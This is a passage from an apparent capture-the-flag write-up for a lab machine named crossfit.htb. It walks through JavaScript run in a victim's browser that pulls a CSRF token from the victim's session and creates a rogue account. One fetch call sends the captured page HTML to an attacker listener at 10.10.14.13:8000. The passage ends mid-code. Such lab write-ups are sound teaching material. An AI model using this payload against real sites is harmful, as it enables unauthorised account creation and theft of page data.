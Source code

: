 So to create a new account, I just have to create some POST parameters using a username and password of my choosing.

```js
var params = {
  _token:'faHOJSGw0YBdz99DqXMC3U1FvAnp0zWRVMkPzlT4',
  username:'testuser123',
  password:'testuser123'
}

var formData = new URLSearchParams();
for (var key in params) {
  formData.append(key, params[key]);
}

fetch('http://ftp.crossfit.htb/accounts/create')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://ftp.crossfit.htb/accounts/create', {
      method: "POST",
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body:formData,
    });

    fetch('http://10.10.14.13:8000/sentpost!', {
      method:"POST",
    })
  });
```

The above doesn't work in registering an account, and I think it is due to the `_token` variable changing each time I use `fetch`. This CSRF token has to be retrieved in the **same session**.

Here's the updated exploit code:

```js
fetch('http://ftp.crossfit.htb/accounts/create', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var csrfTokenElement = doc.querySelector('input[name="_token"]');
    var csrfToken = csrfTokenElement ? csrfTokenElement.value : null;

    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include', 
      body: html,
    });

    if (csrfToken) {
      fetch('http://ftp.crossfit.htb/accounts', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
        },
        credentials: 'include', 
        body: new URLSearchParams({
          _token: csrfToken,
          username: 'test123',
          pass: 'Password123!',
        }),
```